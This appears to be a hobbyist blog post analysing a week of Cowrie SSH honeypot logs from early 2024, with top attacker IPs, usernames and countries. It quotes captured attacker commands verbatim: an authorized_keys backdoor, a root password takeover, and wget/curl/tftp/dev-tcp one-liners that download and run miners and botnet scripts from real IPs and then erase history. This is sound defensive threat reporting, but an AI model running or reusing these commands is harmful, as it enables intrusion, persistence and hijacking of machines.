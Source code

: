 ```yaml
---
title: Bruteforce Attacks Q1 2024
description: >-
  In the first months of 2024 I have set up a cowrie honeypot to see what is new in 2024 😄.
  
  Sadly I only have backups of the last week, so the information will be based on that.
  
  The logs were at 1 point over 1 Milion lines of cowrie logs long. I wanted to build a website that will be used to look through the data and analyze but that has not been done. 
author: iacob
date: 2024-07-30
categories: [InfoSec, Statistics]
tags: [cowrie, ssh, attack, bruteforce]
pin: true
---
```


| Top 10 IP Addresses | Top 10 Usernames | Top 10 Countries           |
|---------------------|------------------|----------------------------|
| 185.251.91.121      | root             | China                      |
| 101.35.132.221      | 345gs5662d34     | United States of America   |
| 52.148.221.37       | test             | Russian Federation         |
| 129.146.4.225       | guest            | Hong Kong                  |
| 139.59.252.180      | admin            | Germany                    |
| 77.85.216.134       | user             | Netherlands                |
| 210.3.147.162       | oracle           | Korea (Republic of)        |
| 106.248.231.67      | hadoop           | Singapore                  |
| 190.114.253.211     | es               | Bulgaria                   |
| 1.14.46.198         | hmsftp           | Chile                      |

---

The main attacker `185.251.91.121` has tried to bruteforce the honeypot for **OVER** 1.000 times in a day, while the others ones falling behind at only 400 times and decending.

---

## Some interesting commands

---



#### Backdoor Attempt

Here there was an attempt at a backdoor

> cd ~ && rm -rf .ssh && mkdir .ssh && echo \"ssh-rsa AAAAB3Nza[...]KPRK+oRw== mdrfckr\">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~","message":"CMD: cd ~ && rm -rf .ssh && mkdir .ssh && echo \"ssh-rsa AAAA[...]+oRw== mdrfckr\">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~


Followed by a `chattr` command to assure the file won't be modified further


> cd ~; chattr -ia .ssh; lockr -ia .ssh","message":"CMD: cd ~; chattr -ia .ssh; lockr -ia .ssh


#### System Inspection


Display the size of the filesystem
> df -h \| head -n 2 \| awk 'FNR == 2 {print $2;}'

Get CPU model - relevant to gauge the power (maybe cryptomining)
> lscpu \| grep Model

Get the CPU cores
> cat /proc/cpuinfo \| grep model \| grep name \| wc 

Get RAM information
> free -m \| grep Mem \| awk '{print $2 ,$3, $4, $5, $6, $7}'

Taking over root account via password change
> echo \"root:bFUDiMA8REPQ\"\|chpasswd\|bash"

#### Crypto mining

Checking for existing cryptominers
> ps -ef \| grep '[Mm]iner'

Autodownload miners and execution
> #!/bin/sh; PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; wget http://43.249.172.195:888/112; curl -O http://43.249.172.195:888/112; chmod +x 112; ./112; wget http://43.249.172.195:888/112s; curl -O http://43.249.172.195:888/112s; chmod +x 112s; ./112s; rm -rf 112.sh; rm -rf 112; rm -rf 112s; history -c; 


#### Downloads

 
1. > `nohup $SHELL -c \"curl http://50.17.152.237:60129/linux -o /tmp/obzJBiFkBx; if [ ! -f /tmp/obzJBiFkBx ]; then wget http://50.17.152.237:60129/linux -O /tmp/obzJBiFkBx; fi; if [ ! -f /tmp/obzJBiFkBx ]; then exec 6<>/dev/tcp/50.17.152.237/60129 && echo -n 'GET /linux' >&6 && cat 0<&6 > /tmp/obzJBiFkBx && chmod +x /tmp/obzJBiFkBx && /tmp/obzJBiFkBx re[...]i2gUbuecv2DxU=; fi; echo 12345678 > /tmp/.opass; chmod +x /tmp/obzJBiFkBx && /tmp/obzJBiFkBx repOs9Q[...]ecv2DxU=\" &`

2. > `cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://93.123.85.79/sora.sh; curl -O http://93.123.85.79/sora.sh; chmod 777 sora.sh; sh sora.sh; tftp 93.123.85.79 -c get sora.sh; chmod 777 sora.sh; sh sora.sh; tftp -r sora2.sh -g 93.123.85.79; chmod 777 sora2.sh; sh sora2.sh; ftpget -v -u anonymous -p anonymous -P 21 93.123.85.79 sora1.sh sora1.sh; sh sora1.sh; rm -rf sora.sh sora.sh sora2.sh sora1.sh; rm -rf *`